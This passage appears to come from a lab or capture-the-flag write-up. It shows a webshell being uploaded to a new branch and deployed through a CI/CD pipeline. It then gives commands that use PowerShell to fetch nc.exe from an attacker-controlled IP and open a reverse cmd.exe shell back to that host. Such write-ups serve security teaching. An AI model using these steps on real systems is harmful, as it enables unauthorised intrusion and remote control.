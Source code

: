 In Git, the main or default name for a branch is master. Then users can
create other branches based on another branch, and people can make
different changes in each branch. The idea is that eventually you merge
other branches back into master, and Git helps manage getting all the
changes together, or helping you resolve conflicts.

It is not uncommon to have lower access users able to create and save
(commit) into branches that are not master while limiting access to
master, and typically, only master would have a pipeline that pushed
actual content to the site.

#### Create a Branch / Upload

I'll click on the dropdown by the branch selection. There's currently
only master, but also an option to add a new one:

![](/img/image-20200822212052513.png)

Clicking New branch pops a form that I'll fill in:

![](/img/image-20200822212122281.png)

Now I can select Upload file(s) again, and this time my upload (from
`/usr/share/webshells/aspx/` on Kali) succeeds:

![](/img/image-20200822212258393.png)

I'm choosing an ASPX webshell because of the `X-Powered-By: ASP.NET`
header seen during Recon.

#### Deploy

Now back in Pipelines, I'll select the CICD job for the project I
uploaded into (Alpha), and run the build job, giving it the branch I
created:

![](/img/image-20200822212414083.png)

About 30 seconds later the job completes and the shell is there:

![](/img/image-20200822094517569.png)

And it has execution:

![](/img/image-20200822212520948.png)

### Shell

I'll start a local Python webserver and then upload `nc64.exe` using the
following command:
`powershell -c wget 10.10.14.24/nc64.exe -outfile \programdata\nc.exe`.

Now I'll get a shell by running
`\programdata\nc.exe -e cmd.exe 10.10.14.24 443`:
